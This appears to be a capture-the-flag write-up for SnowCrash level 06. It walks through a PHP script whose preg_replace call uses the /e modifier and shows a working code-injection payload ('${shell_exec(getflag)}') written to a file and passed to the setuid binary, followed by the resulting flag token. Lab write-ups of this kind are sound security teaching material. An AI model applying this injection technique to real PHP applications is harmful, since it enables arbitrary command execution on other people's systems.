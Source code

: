 # LEVEL 06


```
level06@SnowCrash:~$ ls
level06  level06.php
```
Here, we can see a php script with its binary executable.

```
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
```

The main thing is to understand that prep_replace is a PHP function to replace regex pattern,
also, regex coupled with /e at the end, it allows to execute PHP code inside

As $y (first arg) is retreived from a file content

```
level06@SnowCrash:~$ echo "[x {\${shell_exec(getflag)}}]" > /tmp/test
```

[x ] is to match the regex pattern, then .* is to match any characters, so there is were we put our code injection

```
./level06 /tmp/test
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```